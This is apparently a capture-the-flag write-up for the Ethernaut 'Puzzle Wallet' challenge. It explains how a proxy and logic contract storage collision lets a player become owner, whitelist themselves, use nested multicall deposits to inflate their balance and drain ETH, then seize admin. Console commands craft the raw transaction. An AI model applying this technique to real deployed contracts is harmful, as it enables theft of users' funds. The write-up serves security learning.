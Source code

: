 # Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help::

Understanding how delegatecalls work and how msg.sender and msg.value behaves when performing one.
Knowing about proxy patterns and the way they handle storage variables.

Recommend watch youtube [Multi Delegatecall | Solidity 0.8](https://youtu.be/NkTWU6tc9WU)
for understand muticall concept, the example code from that youtube in (example.sol)[https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/example.sol]


### Description
In an easy word, _Proxy_ and _Logic_ contracts share storage via `delegatecall`, that means `pendingAdmin` is `owner` as well as `admin` is `maxBalance`.

| Slot | Variable           |
|------|--------------------|
| 0    | pendingAdmin/owner |
| 1    | admin/maxBalance   |
| 2    | whitelisted        |
| 3    | balances           |

In this sense, you can guess that `admin` can be set to a new value via `maxBalance`.
In order to set `maxBalance`, you have to be whitelisted as well as the wallet contract's ether balance has to be 0.
In order to add someone in whiltelist, you have to be `owner`.
In order to be `owner`, you can set `pendingAdmin` as yourself through `proposeNewAdmin` in `PuzzleProxy`.
Once you are whiltelisted, you can call `execute` and `multicall` strategically to steal ethers from the wallet contract.

### Step by step

1. Propose yourself as a new owner
2. Add yourself in whitelist
3. Manipulate your balance
4. Drain out ETH
   - `multicall([deposit, multicall([deposit])])`
   - `execute(yourself)`
5. Set `maxBalance` to be a new admin

Credit: idea about step by step is from [maAPPsDEV/puzzle-wallet-attack](https://github.com/maAPPsDEV/puzzle-wallet-attack)

## Test in console
contract.abi
(10) [{…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}, {…}]0: {inputs: Array(1), name: 'addToWhitelist', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}1: {inputs: Array(1), name: 'balances', outputs: Array(1), stateMutability: 'view', type: 'function', …}2: {inputs: Array(0), name: 'deposit', outputs: Array(0), stateMutability: 'payable', type: 'function', …}3: {inputs: Array(3), name: 'execute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}4: {inputs: Array(1), name: 'init', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}5: {inputs: Array(0), name: 'maxBalance', outputs: Array(1), stateMutability: 'view', type: 'function', …}6: {inputs: Array(1), name: 'multicall', outputs: Array(0), stateMutability: 'payable', type: 'function', …}7: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}8: {inputs: Array(1), name: 'setMaxBalance', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}9: {inputs: Array(1), name: 'whitelisted', outputs: Array(1), stateMutability: 'view', type: 'function', …}length: 10[[Prototype]]: Array(0)

contract.address
'0xdcde1dfC141EE526afE58C48be75835565806f7C'

await contract.owner();
'0xe13a4a46C346154C41360AAe7f070943F67743c9'

from contract.abi, it means we interact directly with PuzzleWallet contract not PuzzleProxy.
it cannot directly call the function `proposeNewAdmin` inside PuzzleProxy. Solve by using Remix to load your ABI PuzzleProxy into the address of the instance, or call it via function signature.

### Method1: call function signature and send transaction via console

function signature of the functionproposeNewAdmin:
```shell
web3.eth.abi.encodeFunctionSignature("proposeNewAdmin(address)");
> '0xa6376746'
```
encode parameter:
```shell
web3.eth.abi.encodeParameter("address", player);
> '0x000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942'
```
Called data will be signature + encoded parameters:
```shell
contract.sendTransaction({ data: '0xa6376746000000000000000000000000c3a005e15cb35689380d9c1318e981bca9339942' });
```

### Method 2 using remix to load your ABI PuzzleProxy into the address of the instance
see solution in [test.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/test.js)
In this file, we use Alchemy web3 plugin to interact with metamask when send the raw transaction to contract.

![run](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run.JPG)

Transaction in Alchemy mempool from web3 transaction to interact with proposeNewAdmin(player)

![run2](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/run2.JPG)

Verify result that you are the new owner:
```shell
await contract.owner();
```

Add yourself into whitelist:
```shell
await contract.addToWhitelist(player);
```

Verify result that player address in whitelist:
```shell
await contract.whitelisted(player);
```

Result on console:

![console](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/result1.JPG)

Step3 - Step5 see solution in file [delegate.js](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/delegate.js)

![complete](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Puzzle%20Wallet/photo/complete.JPG)